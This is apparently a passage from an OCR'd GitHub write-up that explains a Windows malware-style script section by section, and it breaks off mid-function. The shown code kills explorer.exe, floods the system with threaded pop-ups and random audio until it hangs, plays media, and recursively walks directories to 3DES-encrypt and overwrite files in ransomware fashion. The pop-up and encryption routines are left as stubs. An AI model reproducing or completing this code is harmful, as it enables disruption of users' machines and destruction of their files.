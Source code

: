### 5. Terminate the Explorer Process
```python
def close_explorer():
    run('taskkill /F /IM explorer.exe')
time.sleep(1.5)
close_explorer()
```
The code terminates the Windows Explorer process, which may cause the desktop and taskbar to become unresponsive.

### 6. Pop - up Windows and Play Audio
```python
def boom2():
    # Code to create a pop - up window
    pass

audio_files = [hanjian1_path, hanjian2_path, hanjian3_path]
def boom3():
    random_audio = random.choice(audio_files)
    playsound(random_audio)

threads1 = []
threads2 = []
threads3 = []
for i in range(15):
    t0 = threading.Thread(target=boom3)
    threads3.append(t0)
    time.sleep(0.1)
    threads3[i].start()
    threads1.clear()
    for j in range(15):
        t1 = threading.Thread(target=boom2)
        threads1.append(t1)
        threads1[j].start()
```
Multiple threads are used to create pop - up windows and play random audio files, which may cause the system to become unresponsive.

### 7. Play Video and Audio
```python
Thread(target=haojing2).start()
haojing1()
```
A separate thread is used to play an audio file, and then a video file is played, which may consume a large amount of system resources.

### 8. Encrypt Files
```python
def encrypt_file(file_path):
    # Read file content
    # Pad data
    # 3DES encryption
    # Modify file extension and overwrite the original file
    pass

def encrypt_directory_recursive(directory_path):
    for root, dirs, files in os.walk(directory_path):
        for file_name in files:
            file_path = os.path.join(root, file_name)
            if file_path != current_script:
                encrypt_file(file_path)

def encrypt_current_directory():
```